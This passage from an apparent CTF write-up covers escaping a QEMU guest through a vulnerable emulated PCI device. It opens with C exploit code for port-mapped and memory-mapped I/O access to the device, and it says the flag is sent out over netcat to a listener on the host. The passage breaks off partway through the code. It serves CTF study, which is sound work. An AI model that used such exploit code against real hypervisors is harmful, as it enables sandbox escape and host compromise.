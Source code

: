 In my setup I use MacOS to host a vagrant box that runs the QEMU process which emulates the vulnerable PCI Device. We can grab the flag from the vagrant box by using a listen nc on the Mac.

{% highlight C %}
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <sys/io.h>

#define MAP_SIZE 4096UL
#define MAP_MASK (MAP_SIZE - 1)

unsigned int pmio_base = 0xc050;  // adjust this if different on qemu reset
char* pci_device_name = "/sys/devices/pci0000:00/0000:00:03.0/resource0";

/*
  oot@ubuntu:/home/ubuntu# cat /sys/devices/pci0000\:00/0000\:00\:03.0/resource
  0x00000000febf1000 0x00000000febf10ff 0x0000000000040200  // mmio
  0x000000000000c050 0x000000000000c057 0x0000000000040101  // pmio
  0x0000000000000000 0x0000000000000000 0x0000000000000000
*/

void pmio_write(unsigned int val, unsigned int addr) {
  outl(val, addr);
}

void pmio_arb_write(unsigned int val, unsigned int offset) {
  int tmp = offset >> 2;
  if ( tmp == 1 || tmp == 3) {
    puts("PMIO write address is a command");
    return;
  }
  pmio_write(offset, pmio_base);
  pmio_write(val, pmio_base + 4);
}

unsigned int pmio_read(unsigned int offset) {
  if (offset == 0) {
    return inl(pmio_base);
  }
  pmio_write(offset, pmio_base);
  return inl(pmio_base + 4);
}

void mmio_write(unsigned int val, unsigned int offset) {
  int fd;
  void *map_base, *virt_addr;
  if((fd = open(pci_device_name, O_RDWR | O_SYNC)) == -1) {
    perror("open pci device");
    exit(-1);
  }
  map_base = mmap(0, MAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, MAP_SIZE & ~MAP_MASK);
  if(map_base == (void *) -1) {
    perror("mmap");
    exit(-1);
  }
  virt_addr = map_base + (offset & MAP_MASK);
  *((unsigned int*) virt_addr) = val;
  if(munmap(map_base, MAP_SIZE) == -1) {
